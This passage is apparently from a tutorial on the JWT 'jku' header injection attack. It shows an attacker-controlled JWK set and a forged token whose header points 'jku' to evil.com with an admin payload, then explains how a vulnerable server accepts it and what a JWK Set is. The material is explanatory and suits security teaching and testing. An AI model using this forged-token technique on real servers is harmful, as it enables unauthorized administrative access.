    ```json
   {
     "keys": [
       {
         "kty": "RSA",
         "kid": "attacker-key",
         "n": "<modulus>",
         "e": "AQAB"
       }
     ]
   }
   ```

3. **Craft a Malicious JWT**

   * Header:

     ```json
     {
       "alg": "RS256",
       "jku": "https://evil.com/jwks.json",
       "kid": "attacker-key"
     }
     ```
   * Payload:

     ```json
     {
       "user": "admin"
     }
     ```
   * Signature: Signed using the attacker’s private key.

4. **Send the JWT to the server**

   * If the server is vulnerable, it will:

     * Fetch the key from the `jku` URL.
     * Use the attacker's public key to verify the forged token.
     * Accept the token and grant unauthorized access.

---

###  What Is a JWK Set?

A **JWK Set** is a JSON object containing an array of **JWKs** (JSON Web Keys):

```json
{
  "keys": [
    {
      "kty": "RSA",
      "kid": "example-key-id",
      "n": "base64url-modulus",
      "e": "AQAB"
    }
  ]
}
```
